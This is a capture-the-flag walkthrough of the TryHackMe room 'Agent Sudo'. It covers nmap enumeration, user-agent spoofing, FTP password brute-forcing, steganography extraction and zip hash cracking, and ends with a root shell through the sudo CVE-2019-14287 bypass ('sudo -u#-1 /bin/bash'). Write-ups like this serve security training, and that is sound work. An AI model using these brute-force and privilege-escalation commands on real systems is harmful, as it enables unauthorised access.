

# Agent Sudo

**Date:** 15, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/agentsudoctf) to go to the TryHackMe room.

## Enumerate

### How many open ports?
- **Answer:** 3
- **Steps to Reproduce:**
    - Run `nmap` scan:

```bash
$ nmap -sC -sV -p- -oN nmap.out 10.10.124.244
Nmap scan report for 10.10.124.244
Host is up (0.20s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 15 14:21:00 2021 -- 1 IP address (1 host up) scanned in 432.82 seconds
```

### How you redirect yourself to a secret page?
- **Answer:** user-agent




### What is the agent name?
- **Answer:** chris
- **Steps to Reproduce:**
    - Use curl with the following options
        - `A` - User agent (The value of user agent must be `C` as mentioned in the Hint)
        - `L` - Follow redirects

```bash
$ curl -LA C http://10.10.124.244/
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

---

## Hash cracking and brute-force

### FTP password
- **Answer:** crystal
- **Steps to Reproduce:** 

- Use `nmap` or `hydra`:

```bash
$ nmap --script ftp-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt -p 21 -oN ftp-brute.out 10.10.124.244
Nmap scan report for 10.10.124.244
Host is up (0.17s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     chris:crystal - Valid credentials
|_  Statistics: Performed 261 guesses in 174 seconds, average tps: 2.5

# Nmap done at Tue Jun 15 14:41:53 2021 -- 1 IP address (1 host up) scanned in 200.60 seconds
```

- Download all the files accessible via FTP:

```bash
$ ftp 10.10.124.244
Connected to 10.10.124.244.
220 (vsFTPd 3.0.3)
Name (10.10.124.244:root): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

- Contents of Text file:

```bash
$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

### Zip file password
- **Answer:** alien
- **Steps to Reproduce:** 
- Using `stegoveritas` on `cutie.png`:

```bash
$ stegoveritas cutie.png

Running Module: SVImage
+---------------------------+----------+
|        Image Format       |   Mode   |
+---------------------------+----------+
| Portable network graphics | ColorMap |
+---------------------------+----------+
Discovered Trailing Data:
b'PK\x03\x043\x03\x01\x00c\x00\xa6\xa3]O\x00\x00\x00\x00b\x00\x00\x00V\x00\x00\x00\r\x00\x0b\x00To_agentR.txt\x01\x99\x07\x00\x02\x00AE\x01\x08\x00Fs\xca\xe7\x14W\x90Eg\xaaa\xc4\xcf:\xf9Nd\x9f\x82~Yd\xceW\\_z#\x9cH\xfb\x99,\x8e\xa8\xcb\xff\xe5\x1d\x03u^\x0c\xa8a\xa5\xa3\xdc\xba\xbf\xa6\x18xK\x85\x07_\x0e\xf4v\xc6\xda\x82a\x80[\xd0\xa40\x9d\xb3\x885\xad2a>=\xc5\xd7\xe8|\x0f\x91\xc0\xb5\xe6NIi\xf3\x82Hl\xb6vz\xe6PK\x01\x02?\x033\x03\x01\x00c\x00\xa6\xa3]O\x00\x00\x00\x00b\x00\x00\x00V\x00\x00\x00\r\x00/\x00\x00\x00\x00\x00\x00\x00 \x80\xa4\x81\x00\x00\x00\x00To_agentR.txt\n\x00 \x00\x00\x00\x00\x00\x01\x00\x18\x00\x80EwwT\x8e\xd5\x01\x00e\xda\xd3T\x8e\xd5\x01\x00e\xda\xd3T\x8e\xd5\x01\x01\x99\x07\x00\x02\x00AE\x01\x08\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00j\x00\x00\x00\x98\x00\x00\x00\x00\x00'
Running Module: MultiHandler
[..snip..]
+--------+------------------+---------------------------------------------------------------------------------------------+---------------+
| Offset | Carved/Extracted | Description                                                                                 | File Name     |
+--------+------------------+---------------------------------------------------------------------------------------------+---------------+
| 0x365  | Carved           | Zlib compressed data, best compression                                                      | 365.zlib      |
| 0x365  | Extracted        | Zlib compressed data, best compression                                                      | 365           |
| 0x8702 | Carved           | Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt | 8702.zip      |
| 0x8702 | Extracted        | Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt | To_agentR.txt |
+--------+------------------+---------------------------------------------------------------------------------------------+---------------+
```

- Crack the password using `john`:

```bash
$ zip2john data.zip > forjohn.txt
ver 81.9 data.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type

$ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (data.zip/To_agentR.txt)
1g 0:00:00:01 DONE (2021-06-15 15:00) 1.000g/s 23488p/s 23488c/s 23488C/s azulita..16161616
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


### steg password
- **Answer:** Area51
- **Steps to Reproduce:** 
- Extract the zip file using the cracked password:

```bash
$ 7z x data.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,1 CPU Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz (806EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: data.zip
--
Path = data.zip
Type = zip
Physical Size = 280

    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
```

- Contents of `To_agentR.txt`:

```
$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- Base64 Decoding to get the password:

```bash
$ echo QXJlYTUx | base64 -d
Area51
```

### Who is the other agent (in full name)?
- **Answer:** James
- **Steps to Reproduce:** 

```bash
$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".

$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

### SSH password
- **Answer:** hackerrules!

---

## Capture the user flag

### What is the user flag?
- Login using ssh to find the user flag:

```bash
sh james@10.10.124.244
The authenticity of host '10.10.124.244 (10.10.124.244)' can't be established.
ECDSA key fingerprint is SHA256:yr7mJyy+j1G257OVtst3Zkl+zFQw8ZIBRmfLi7fX/D8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.124.244' (ECDSA) to the list of known hosts.

james@10.10.124.244's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 15 09:48:48 UTC 2021

  System load:  0.0               Processes:           97
  Usage of /:   39.8% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for eth0: 10.10.124.244
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
REDACTED
```


### What is the incident of the photo called?
- **Answer:** Roswell alien autopsy
- **Steps to Reproduce:** Visit [Foxnews - Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment](https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment?fbclid=IwAR0Qze0QmMWd0STeGhIOkXO_Gv-dgFxDn3fBwa5JYqGMglG0pDW0Zu5DxkA)

---

## Privilege escalation

### CVE number for the escalation 
- **Answer:** [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
- **Steps to Reproduce:** 

```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- Google this `(ALL, !root) /bin/bash`
- Confirm that the sudo version is exploitable: (Sudo <1.2.28)

```bash
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```


### What is the root flag?

- Exploit the sudo vulnerability using `sudo -u#-1 /bin/bash` or `sudo -u#4294967295 /bin/bash`

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
REDACTED

By,
DesKel a.k.a Agent R
```

### Who is Agent R?
- **Answer:** DesKel

---

## References
- [RedHat - CVE 2019-14287](https://access.redhat.com/security/cve/cve-2019-14287)